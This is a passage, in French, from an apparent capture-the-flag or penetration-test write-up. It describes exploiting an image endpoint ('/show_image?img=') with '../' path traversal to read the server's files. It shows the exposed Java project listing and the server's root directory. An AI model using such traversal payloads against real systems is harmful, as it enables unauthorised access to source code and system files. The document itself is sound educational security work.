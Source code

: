 Après plusieurs tentatives il s'avère que c'est sûrement une voie sans issue.

### /show_image?img=img.png

On peut tenter un LFI. Avec `../../../../../toto.png` ça donne en boucle des erreurs 500. Avec un simple `../` on accède à des fichiers du serveur.

Si on tente de remonter au plus "loin" pour le site, on accède à ce qui semble être un projet intelliJ Idea, un éditeur de projet fait pour Java :

```text
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```

On a donc accès à tout le code source du projet.

On peut également accéder à tout le reste du serveur :

```http
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 4096
Date: Tue, 06 Jun 2023 11:10:13 GMT
Connection: close

bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
